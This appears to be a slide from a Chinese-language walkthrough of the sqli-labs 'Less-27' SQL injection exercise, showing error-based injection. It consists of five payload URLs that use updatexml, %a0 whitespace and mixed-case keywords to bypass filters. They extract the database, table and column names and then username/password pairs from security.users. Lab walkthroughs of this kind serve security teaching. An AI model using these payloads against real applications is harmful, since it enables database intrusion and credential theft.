

# Less-27_02
法二：使用报错注入
1. http://121.199.30.46/Less-27/?id=1‘    %a0  ||    %a0   updatexml(1, concat(0x7e, ( database()  ) ), 1)  %a0  || ’1‘=‘1  首先拿到数据库名称
2. http://47.100.118.240:8888/Less-27/?id=1‘  %a0 ||  updatexml(1, concat(0x7e, (  SEleCt %a0  schema_name  %a0 from  %a0   information_schema.schemata  %a0 limit %a0 1,1  ) ),1)  || %a0  ’1’=‘1  通过这样查，可以拿到所有的库信息。
3. http://47.100.118.240:8888/Less-27/?id=1‘  %a0 ||  updatexml(1, concat(0x7e, (  SEleCt %a0  table_name  %a0 from  %a0   information_schema.tables %a0 where %a0 table_schema =  0x7365637572697479 %a0 limit %a0 1,1  ) ),1)  || %a0  ’1‘=‘1 通过遍历所有的表的值
4. http://47.100.118.240:8888/Less-27/?id=1‘  %a0 ||  updatexml(1, concat(0x7e, ( SEleCt %a0  column_name %a0  from %a0  information_schema.columns %a0  where %a0   table_name = 0x7573657273  %a0 limit %a0 1,1  ) ),1)  || %a0  ’1‘=‘1 通过遍历取出所以都字段
5. http://47.100.118.240:8888/Less-27/?id=1'  %a0 ||  updatexml(1, concat(0x7e, (SElect %a0  concat_ws(0x7e,username,password) from  %a0  security.users  %a0 limit %a0 1,1  ) ),1)  || %a0 '1'=‘1
 通过遍历的方法取出里面所有的字段值。